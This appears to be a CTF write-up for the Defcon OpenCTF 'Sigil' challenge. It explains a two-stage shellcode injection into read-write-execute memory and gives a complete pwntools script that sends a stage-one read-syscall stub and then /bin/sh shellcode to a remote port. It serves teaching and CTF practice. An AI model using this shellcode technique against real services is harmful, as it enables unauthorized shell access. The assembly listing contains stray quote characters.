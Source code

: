 ```yaml
---
layout: post
title:  "Defcon OpenCTF - Sigil"
date:   2015-08-13 18:03:59
categories: CTF Pwnable
---
```


The main funciton of sigil is below:

![Sigil main](/assets/images/sigil.png)

The following occurs:
* memory region is set to `read-write-execute` permissions
* read() of length 16 into that memory region
* call to the buffer just read

The gameplan for this exploit is to send an initial payload which will call `read()` into the `RWX` memory region. From here, we send the actual `/bin/sh` payload which will continue executing after our stage 1 payload.

We can call `read` via `syscall` to make this shellcode small. The following must be setup for this to work:
* rax - 0
* rdi - file descriptor to read from, i.e. stdin
* rsi - destination buffer
* rdx - 0x30 : Arbitrary length to read

The `rax` register is already set to `0` for our `read` syscall, so no modification needs to happen there. The `rdi` register needs to be a `0` in order to read from stdin, so a simple `xor rdi, rdi` will accomplish this for us. The destination buffer is already stored in the rdx register when our shellcode is run, which means we only need to execute a `mov rsi, rdx` in order to setup our destination buffer location. Lastly, we need to set a read length, and a simple `mov rdx, 0x30` will work.

The final stage 1 shellcode is below:
```
mov rsi, rdx' # rdx already contains our buffer location
mov edx, 0x30' # set our read length
add rsi, 10' # adjust our buffer a bit further down, so we don't overwrite our initial shellcode
syscall # Execute read
```

From here, we send a second shellcode containing our generic `/bin/sh` shellcode in order to receive our shell.

The full exploit is below:

```python
from pwn import * # pip install pwntools
context(arch='amd64')

HOST = '127.0.0.1'
PORT = 4444

# r = process('./sigil')
r = remote(HOST, PORT)

# Debug helper
"""
gdb.attach(r, '''
bp 40062a
c
''')
"""

"""
read() syscall
rax - 0
rdi - file descriptor to read from - 0 => stdin
rsi - destination buffer
rdx - length to read
"""

"""
rax is already 0 for syscall read
rdi is already 0
'xor rdi, rdi', # Read from stdin (file descriptor 0)
"""
shellcode = asm('\n'.join([
'mov rsi, rdx', # rdx already contains our buffer location
'mov edx, 0x30',
'add rsi, 10',
'syscall'
]))

# Ensure we send a full 16 byte Stage 1 payload.
shellcode = shellcode.rjust(16, '\x90')
log.info("Shellcode:[{}]  {}".format(len(shellcode), shellcode))

# Create second payload - simple /bin/sh payload
# Add a beginning nop sled, because why not?
log.info("Stage2: {}".format(shellcraft.sh()))
sc = asm(shellcraft.sh())
sc = sc.rjust(0x30, '\x90')
log.info("Stage2: {}".format(sc))

r.sendline(shellcode + sc)

r.interactive()

